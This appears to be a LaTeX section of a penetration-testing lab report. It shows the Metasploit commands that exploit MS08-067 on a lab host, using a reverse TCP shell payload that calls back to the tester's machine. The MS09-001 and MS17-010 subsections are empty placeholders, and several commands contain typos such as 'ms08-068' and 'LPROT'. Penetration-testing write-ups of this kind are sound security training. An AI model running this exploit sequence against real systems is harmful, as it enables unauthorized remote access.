%-------------------------------------
% Penetration Testing Section
%--------------------------------------
\section{Vulnerability Exploitation / Penetration Testing}
The following vulnerabilities will be tested via Metesploit.
\begin{itemize}
\item MS08-067
\item MS09-001
\item MS17-010
\end{itemize}

\subsection{MS08-067}
Nessus found a security hole in the SMB on 10.10.10.130. Per the notes in the aforementioned Nessus output, the remote host is affected by a remote code execution vulnerability - MS08-067 (see pentest details below):\\

\begin{lstlisting}[language=bash]
$ start msfconsole
$ search ms08-068
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{search.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\begin{lstlisting}[language=bash]
$ use exploit/windows/smb/ms08_067_netapi
$ show options
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{show1.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\begin{lstlisting}[language=bash]
$ set RHOST 10.10.10.130
$ show payloads
$ set payload windows/shell_reverse_tcp
$ show options
$ set LHOST 10.10.10.1
$ set LPROT 8443
$ show target
$ set target 6
$ show options
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{show2.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\begin{lstlisting}[language=bash]
$ exploit
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{exploit.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\subsection{MS09-001}
some content

\subsection{MS17-010}
some content
